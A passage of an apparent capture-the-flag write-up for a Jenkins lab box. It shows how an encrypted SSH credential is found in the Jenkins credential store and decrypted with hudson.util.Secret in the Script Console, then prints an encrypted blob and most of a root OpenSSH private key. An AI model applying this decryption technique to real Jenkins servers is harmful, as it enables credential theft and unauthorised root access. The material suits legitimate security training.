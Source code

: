 ```sh
```
This did not allow me to login to SSH, but it logged into the Jenkins panel. 

---
### Initial Access
When we navigate to this link we can find the encrypted SSH key:
```http
view-source:http://10.10.11.10:8080/manage/credentials/store/system/domain/_/credential/1/update
```
Since I wasn’t sure about the password encryption Jenkins utilizes, I conducted a quick Google search and found decryption can be performed using `hudson.util.Secret` via the script console, accessible at “Dashboard” > “Manage Jenkins” > “Script Console”.

----
### Privilege Escalation
Using the discovered credentials, I logged into the Jenkins panel. I further explored Jenkins's "Script Console" to decrypt encrypted SSH keys stored in the configuration.

By executing the following print statement we can decrypt this key:
```sh
println(hudson.util.Secret.fromString("{AQAAABAAAAowLrfCrZx9baWliwrtCiwCyztaYVoYdkPrn5qEEYDqj5frZLuo4qcqH61hjEUdZtkPiX6buY1J4YKYFziwyFA1wH/X5XHjUb8lUYkf/XSuDhR5tIpVWwkk7l1FTYwQQl/i5MOTww3b1QNzIAIv41KLKDgsq4WUAS5RBt4OZ7v410VZgdVDDciihmdDmqdsiGUOFubePU9a4tQoED2uUHAWbPlduIXaAfDs77evLh98/INI8o/A+rlX6ehT0K40cD3NBEF/4ALG5xj3/1nqnieMhavTt5yipvfNJfbFMqjHjHBlDY/MCkU89l6p/xk6JMH+9SWaFlTkjwshZDA/oO/
<snip>
</snip>
xTRVFH/NFpuaw+iZvUPm0hDfdxD9JIL6FFpaodsmlksTPz366bcOcNONXSxuD0fJ5+WVvReTFdi+agF+sF2jkOhGTjc7pGAg2zl10O84PzXW1TkN2yD9YHgo9xYa8E2k6pYSpVxxYlRogfz9exupYVievBPkQnKo1Qoi15+eunzHKrxm3WQssFMcYCdYHlJtWCbgrKChsFys4oUE7iW0YQ0MAdcg/hWuBX878aR+/3HsHaB1OTIcTxtaaMR8IMMaKSM=}"))
```
![[Pasted image 20241021212614.png]]

### Root key
```sh
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3G9oUyouXj/0CLya9Wz7Vs31bC4rdvgv7n9PCwrApm8PmGCSLgv
Up2m70MKGF5e+s1KZZw7gQbVHRI0U+2t/u8A5dJJsU9DVf9w54N08IjvPK/cgFEYcyRXWA
EYz0+41fcDjGyzO9dlNlJ/w2NRP2xFg4+vYxX+tpq6G5Fnhhd5mCwUyAu7VKw4cVS36CNx
vqAC/KwFA8y0/s24T1U/sTj2xTaO3wlIrdQGPhfY0wsuYIVV3gHGPyY8bZ2HDdES5vDRpo
Fzwi85aNunCzvSQrnzpdrelqgFJc3UPV8s4yaL9JO3+s+akLr5YvPhIWMAmTbfeT3BwgMD
vUzyyF8wzh9Ee1J/6WyZbJzlP/Cdux9ilD88piwR2PulQXfPj6omT059uHGB4Lbp0AxRXo
L0gkxGXkcXYgVYgQlTNZsK8DhuAr0zaALkFo2vDPcCC1sc+FYTO1g2SOP4shZEkxMR1To5
yj/fRqtKvoMxdEokIVeQesj1YGvQqGCXNIchhfRNAAAFiNdpesPXaXrDAAAAB3NzaC1yc2
EAAAGBALdxvaFMqLl4/9Ai8mvVs+1bN9WwuK3b4L+5/TwsKwKZvD5hgki4L1Kdpu9DChhe
XvrNSmWcO4EG1R0SNFPtrf7vAOXSSbFPQ1X/cOeDdPCI7zyv3IBRGHMkV1gBGM9PuNX3A4
xsszvXZTZSf8NjUT9sRYOPr2MV/raauhuRZ4YXeZgsFMgLu1SsOHFUt+gjcb6gAvysBQPM
tP7NuE9VP7E49sU2jt8JSK3UBj4X2NMLLmCFVd4Bxj8mPG2dhw3REubw0aaBc8IvOWjbpw
s70kK586Xa3paoBSXN1D1fLOMmi/STt/rPmpC6+WLz4SFjAJk233k9wcIDA71M8shfMM4f
RHtSf+lsmWyc5T/wnbsfYpQ/PKYsEdj7pUF3z4+qJk9OfbhxgeC26dAMUV6C9IJMRl5HF2
IFWIEJUzWbCvA4bgK9M2gC5BaNrwz3AgtbHPhWEztYNkjj+LIWRJMTEdU6Oco/30arSr6D
MXRKJCFXkHrI9WBr0KhglzSHIYX0TQAAAAMBAAEAAAGAD+8Qvhx3AVk5ux31+Zjf3ouQT3
7go7VYEb85eEsL11d8Ktz0YJWjAqWP9PNZQqGb1WQUhLvrzTrHMxW8NtgLx3uCE/ROk1ij
rCoaZ/mapDP4t8g8umaQ3Zt3/Lxnp8Ywc2FXzRA6B0Yf0/aZg2KykXQ5m4JVBSHJdJn+9V
sNZ2/Nj4KwsWmXdXTaGDn4GXFOtXSXndPhQaG7zPAYhMeOVznv8VRaV5QqXHLwsd8HZdlw
R1D9kuGLkzuifxDyRKh2uo0b71qn8/P9Z61UY6iydDSlV6iYzYERDMmWZLIzjDPxrSXU7x
6CEj83Hx3gjvDoGwL6htgbfBtLfqdGa4zjPp9L5EJ6cpXLCmA71uwz6StTUJJ179BU0kn6
HsMyE5cGulSqrA2haJCmoMnXqt0ze2BWWE6329Oj/8Yl1sY8vlaPSZUaM+2CNeZt+vMrV/
ERKwy8y7h06PMEfHJLeHyMSkqNgPAy/7s4jUZyss89eioAfUn69zEgJ/MRX69qI4ExAAAA
wQCQb7196/KIWFqy40+Lk03IkSWQ2ztQe6hemSNxTYvfmY5//gfAQSI5m7TJodhpsNQv6p
F4AxQsIH/ty42qLcagyh43Hebut+SpW3ErwtOjbahZoiQu6fubhyoK10ZZWEyRSF5oWkBd
hA4dVhylwS+u906JlEFIcyfzcvuLxA1Jksobw1xx/4jW9Fl+YGatoIVsLj0HndWZspI/UE
g5gC/d+p8HCIIw/y+DNcGjZY7+LyJS30FaEoDWtIcZIDXkcpcAAADBAMYWPakheyHr8ggD
```